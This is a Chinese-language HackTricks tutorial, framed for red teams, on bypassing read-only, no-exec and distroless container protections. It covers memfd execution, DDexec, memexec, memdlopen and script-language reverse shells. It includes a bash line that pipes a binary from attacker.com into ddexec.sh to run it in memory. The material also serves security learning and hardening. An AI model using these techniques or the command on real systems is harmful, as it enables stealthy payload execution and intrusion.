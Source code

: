 # 绕过文件系统保护：只读 / 无执行 / Distroless

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果您对**黑客职业**感兴趣并想要黑入不可黑入的系统 - **我们正在招聘！**（需要流利的波兰语书面和口头表达能力）。

{% embed url="https://www.stmcyber.com/careers" %}

## 视频

在以下视频中，您可以找到本页中提到的技术的更深入解释：

* [**DEF CON 31 - 探索Linux内存操作以实现隐蔽和规避**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**使用DDexec-ng和内存dlopen()进行隐蔽入侵 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 只读 / 无执行场景

在Linux机器上发现**只读（ro）文件系统保护**变得越来越普遍，特别是在容器中。这是因为在容器中运行只读文件系统只需在`securitycontext`中设置**`readOnlyRootFilesystem: true`**即可：

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

然而，即使文件系统被挂载为只读，**`/dev/shm`**仍然是可写的，因此我们可以在磁盘上写入内容。但是，此文件夹将以**无执行保护**方式被挂载，因此如果您在此处下载二进制文件，则**无法执行**。

{% hint style="warning" %}
从红队的角度来看，这使得**下载和执行**系统中不存在的二进制文件（如后门或类似`kubectl`的枚举器）变得**复杂**。
{% endhint %}

## 最简单的绕过方法：脚本

请注意，我提到了二进制文件，只要解释器在机器内部，您可以**执行任何脚本**，比如如果`sh`存在，则可以执行**shell脚本**，如果安装了`python`，则可以执行**python脚本**。

然而，这仅仅是为了执行您的二进制后门或其他可能需要运行的二进制工具而不够。

## 内存绕过

如果您想要执行一个二进制文件，但文件系统不允许，最好的方法是通过**从内存中执行**，因为**保护在那里不适用**。

### FD + exec系统调用绕过

如果您在机器内部有一些强大的脚本引擎，比如**Python**、**Perl**或**Ruby**，您可以将要执行的二进制文件下载到内存中，将其存储在一个内存文件描述符（`create_memfd`系统调用）中，这不会受到这些保护的保护，然后调用**`exec`系统调用**，指示**fd作为要执行的文件**。

为此，您可以轻松使用项目[**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)。您可以将二进制文件传递给它，它将生成一个以指定语言编写的脚本，其中包含**使用指令对二进制文件进行解码和解压缩**的二进制文件，并在调用`create_memfd`系统调用创建的**fd**中解码和解压缩它以及调用**exec**系统调用来运行它的指令。

{% hint style="warning" %}
这在其他脚本语言（如PHP或Node）中不起作用，因为它们没有任何从脚本中**调用原始系统调用**的默认方法，因此无法调用`create_memfd`来创建**存储二进制文件的内存fd**。

此外，在`/dev/shm`中创建一个**常规fd**中的文件是行不通的，因为您将无法运行它，因为**无执行保护**将适用。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)是一种允许您通过覆盖其**`/proc/self/mem`**来**修改自己进程的内存**的技术。

因此，通过**控制进程执行的汇编代码**，您可以编写一个**shellcode**并“变异”进程以**执行任意代码**。

{% hint style="success" %}
**DDexec / EverythingExec**将允许您从**内存**中加载和**执行**自己的**shellcode**或**任何二进制文件**。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec)是DDexec的自然下一步。它是一个**DDexec shellcode demonised**，因此每次您想要**运行不同的二进制文件**时，您无需重新启动DDexec，只需通过DDexec技术运行memexec shellcode，然后**与此守护进程通信以传递要加载和运行的新二进制文件**。

您可以在[https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)中找到如何使用**memexec执行来自PHP反向shell的二进制文件**的示例。

### Memdlopen

与DDexec有类似目的，[**memdlopen**](https://github.com/arget13/memdlopen)技术允许以**更简单的方式**将二进制文件加载到内存中以后执行它们。甚至可以加载具有依赖关系的二进制文件。

## Distroless Bypass

### 什么是distroless

Distroless容器仅包含运行特定应用程序或服务所需的**最少组件**，例如库和运行时依赖项，但不包括诸如软件包管理器、shell或系统实用程序等较大的组件。

Distroless容器的目标是通过消除不必要的组件**减少容器的攻击面**，并最小化可以被利用的漏洞数量。

### 反向Shell

在distroless容器中，您可能**找不到`sh`或`bash`**以获取常规shell。您也不会找到诸如`ls`、`whoami`、`id`等二进制文件...通常在系统中运行的所有内容。

{% hint style="warning" %}
因此，您**将无法**像通常那样获得**反向shell**或**枚举**系统。
{% endhint %}

但是，如果受损的容器例如正在运行flask web，则已安装了python，因此您可以获取**Python反向shell**。如果正在运行node，则可以获取Node反向shell，大多数任何**脚本语言**都可以。

{% hint style="success" %}
使用脚本语言，您可以使用语言功能**枚举系统**。
{% endhint %}

如果没有**`read-only/no-exec`**保护，您可以滥用反向shell在文件系统中**写入您的二进制文件**并**执行**它们。

{% hint style="success" %}
但是，在这种类型的容器中，这些保护通常存在，但您可以使用**先前的内存执行技术来绕过它们**。
{% endhint %}

您可以在[**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)中找到如何**利用一些RCE漏洞**获取脚本语言**反向shell**并从内存中执行二进制文件的**示例**。

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果您对**黑客职业**感兴趣并想要黑入不可黑入的 - **我们正在招聘！**（需要流利的波兰语书面和口语）。

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来**分享您的黑客技巧**。

</details>
